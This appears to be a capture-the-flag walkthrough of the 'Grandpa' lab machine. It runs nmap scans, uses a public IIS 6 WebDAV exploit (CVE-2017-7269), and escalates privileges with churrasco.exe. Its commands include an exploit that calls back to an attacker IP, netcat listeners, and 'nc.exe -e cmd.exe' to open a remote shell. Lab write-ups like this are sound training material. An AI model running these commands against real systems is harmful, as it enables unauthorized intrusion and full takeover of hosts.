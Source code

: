 **Ping**
```
ping 10.10.10.14
```
![[Pasted image 20240619131544.png]]

Nmap Default Scan
```
nmap 10.10.10.14 -oN dnmap
```
![[Pasted image 20240619131642.png]]

Nmap Script and Service Scan
```
nmap 10.10.10.14 -sC -sV -A -oN snmap
```
![[Pasted image 20240619131851.png]]
We can see the path now...!

All port Scan
```
nmap 10.10.10.14 -p- --open -T5 -oN anmap
```
![[Pasted image 20240619135050.png]]

On Port 80
![[Pasted image 20240619131930.png]]



Will search for public exploit
![[Pasted image 20240619135234.png]]
Found one https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell

Will run the exploit
```
python2 exp.py 10.10.10.14 80 10.10.14.2 443
```
![[Pasted image 20240619135255.png]]

Got Reverse shell
```
rlwrap nc -nvlp 443
```
![[Pasted image 20240619135336.png]]

Will jump  to Privilege Escalation....! 

Wii get System info
![[Pasted image 20240619135439.png]]
Got the vulnerable one..!

Get the binary from the link https://github.com/Re4son/Churrasco/raw/master/churrasco.exe
And Shared it to the target machine via smb
```
impacket-smbserver kali .
```
![[Pasted image 20240619135631.png]]
```
copy \\10.10.14.2\kali\churrasco.exe
```
![[Pasted image 20240619135707.png]]

Now will run the binary
![[Pasted image 20240619135727.png]]
It Worked..!

Will get the reverse shell using nc.exe, First will transfer nc.exe to target machine
```
copy \\10.10.14.2\kali\nc.exe
```
![[Pasted image 20240619135654.png]]

Now will get the reverse shell
```
churrasco.exe "nc.exe -e cmd.exe 10.10.14.2 443"
```
![[Pasted image 20240619135849.png]]

```
rlwrap nc -nvlp 443
```
![[Pasted image 20240619140010.png]]
Got it.....!

Will get the flags
```
dir /s /b "C:\Documents and Settings\*.txt"
```
![[Pasted image 20240619140142.png]]
Got the locations.

**User.txt**
![[Pasted image 20240619140237.png]]

Root.txt
![[Pasted image 20240619140323.png]]


Done with Grandpa......:)

